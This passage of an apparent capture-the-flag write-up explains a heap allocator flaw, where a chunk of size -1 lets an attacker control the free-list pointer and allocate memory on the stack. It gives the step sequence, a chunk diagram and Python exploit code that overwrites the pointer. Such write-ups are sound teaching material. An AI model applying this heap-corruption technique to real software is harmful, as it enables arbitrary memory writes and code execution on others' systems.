 This is an issue because the `free_buffer(data_ptr)` assumes that it will find the
length of the chunk at `data_ptr - 8` and use this location to store a pointer
to the `head_free_list_ptr`.  This means that, at the next allocation after the
`free()`, this pointer (which we now control) will be dereferenced.


### Exploitation ###

#### Dereferencing an arbitrary location ####

To exploit this, we will use the vulnerability disclosed above to force the heap
allocator to make an allocation directly inside the stack (whose address is
known thanks to the "Nice guy" command). So we need to:

   1. allocate 3 chunks, the second allocated chunk must have a size of -1
   1. free the 3rd chunk
   1. free the 2nd chunk.

{% highlight bash %}

          +----------------+
          |  size = N      |
          |  data          |
          |   ..           |
          |                |
          |                |
          |  ptr_to_stack  |
          +----------------+
          |  size = -1     |
          +----------------+
          |  size = M      |
          |  data          |
          |                |
          |                |
          +----------------+

{% endhighlight %}

Upon the 2nd free, we will gain control of the `head_free_list_ptr`:

{% highlight python %}
  sz = 128
  allocate(s, sz)
  allocate(s, -1)
  allocate(s, 10)

  free(s, "3")
  free(s, "2")

  payload = "A"*(sz-8) + p64(0x4242424242424242)
  write(s, 1, payload)
{% endhighlight %}
